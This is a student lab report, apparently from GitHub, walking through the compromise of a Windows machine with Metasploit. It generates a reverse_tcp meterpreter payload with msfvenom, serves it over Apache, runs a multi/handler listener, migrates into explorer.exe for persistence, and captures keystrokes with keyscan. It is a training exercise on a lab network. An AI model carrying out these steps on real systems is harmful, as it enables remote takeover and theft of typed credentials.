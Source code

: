 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
```
Tested By :Bakkiyalakshmi E
Reg. no: 212223220012
```

Find the attackers ip address using ifconfig
## OUTPUT:
![img01](https://github.com/user-attachments/assets/48184a16-ab3e-44fe-8b73-be02546358c1)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![img02](https://github.com/user-attachments/assets/96704f06-9b23-454b-b5f4-99890965686f)




copy the fun.exe into the apache /var/www/html folder
![img03](https://github.com/user-attachments/assets/6b6cb525-f9eb-4162-8080-bf518aef7a16)


Start apache server
sudo systemctl apache2 start

![img04](https://github.com/user-attachments/assets/c6d7a0c3-20a9-4f97-aa93-2340ae6618dc)



Check the status of apache2
![img05](https://github.com/user-attachments/assets/ab3a063a-5f1c-4634-9666-21a2c4df1ca4)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![img06](https://github.com/user-attachments/assets/9d2930e9-2ca2-4f41-a12d-f6bb464eeba7)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![img07](https://github.com/user-attachments/assets/a6d9de9f-0192-4578-912c-4f861fe8aa4a)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![img08](https://github.com/user-attachments/assets/75c32eb4-7e41-4099-b807-0c216ab6f81f)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![img09](https://github.com/user-attachments/assets/bc0ae88a-5538-4752-9c80-3841d56107d1)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![img010](https://github.com/user-attachments/assets/22a7c2bf-649f-4651-ac16-793e7f4307fc)



keyscan_dump	Shows the keystrokes captured so far
![img011](https://github.com/user-attachments/assets/a8cfb90f-080e-490f-b546-b42be0d318f8)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
